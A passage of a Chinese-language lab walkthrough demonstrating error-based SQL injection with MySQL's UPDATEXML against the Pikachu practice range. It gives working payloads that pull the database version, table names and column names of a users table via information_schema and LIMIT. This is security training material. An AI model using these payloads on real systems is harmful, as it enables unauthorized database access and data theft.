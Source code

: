 **select 下的报错演示**

select/insert/update/delete 都可以使用报错来获取信息.

- **UPDATEXML(xml_document,XPathstring,new_value)**

    Updatexml() 函数作用:改变(查找并替换)XML 文档中符合条件的节点的值.
    - 第一个参数 : fiedname 是 String 格式,为表中的字段名.
    - 第二个参数 : XPathstring(Xpath 格式的字符串).
    - 第三个参数 : new_value,String 格式,替换查找到的符合条件的 X

改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为: `a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#`

其中的 concat() 函数是将其连成一个字符串,因此不会符合 XPATH_string 的格式,从而出现格式错误,爆出 `ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'`

获取数据库表名,输入:`a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#` ,但是反馈回的错误表示只能显示一行,所以采用 limit 来一行一行显示

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/35.png)

输入 `a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#` 更改 limit 后面的数字 pikachu'limit 0,爆表名

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/36.png)

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/37.png)

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/38.png)

字段名 `a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)#` 更改 limit 后面的数字,爆表名

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/39.png)

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/40.png)
